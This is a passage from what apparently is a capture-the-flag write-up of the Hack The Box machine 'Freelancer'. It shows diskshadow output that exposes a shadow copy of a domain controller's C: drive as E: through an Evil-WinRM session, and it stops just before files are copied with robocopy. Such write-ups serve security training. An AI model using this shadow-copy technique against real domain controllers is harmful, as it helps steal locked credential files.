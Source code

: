 ```
Alias VSS_SHADOW_SET for shadow set ID {52fc981a-fe50-4f58-b866-3f5c45eaa703} set as environment variable.
Inserted file Manifest.xml into .cab file 0xdf.cab
Inserted file DisCF45.tmp into .cab file 0xdf.cab

Querying all shadow copies with the shadow copy set ID {52fc981a-fe50-4f58-b866-3f5c45eaa703}
        * Shadow copy ID = {da62a7a6-9ab3-414e-9721-62509d79f850}               %cdrive%
                - Shadow copy set: {52fc981a-fe50-4f58-b866-3f5c45eaa703}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{011d3cdb-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 10/15/2024 2:59:17 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4
                - Originating machine: DC.freelancer.htb
                - Service machine: DC.freelancer.htb
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {da62a7a6-9ab3-414e-9721-62509d79f850}
The shadow copy was successfully exposed as E:\.
-> end backup
->

```

It seems to work. `E:\` looks like a backup of `C:\`:

```
*Evil-WinRM* PS C:\programdata> ls E:\

    Directory: E:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/24/2024   7:30 PM                apps
d-----         6/3/2024  10:50 AM                nginx
d-----        5/28/2024  11:47 AM                PerfLogs
d-r---        5/28/2024   2:18 PM                Program Files
d-----        5/28/2024   2:18 PM                Program Files (x86)
d-----        5/27/2024   7:50 AM                temp
d-r---        10/6/2024   9:57 PM                Users
d-----        5/28/2024  11:50 AM                Windows

```

I still don’t have access to copy files from this drive through. I’ll have to use `robocopy` to do it:

```
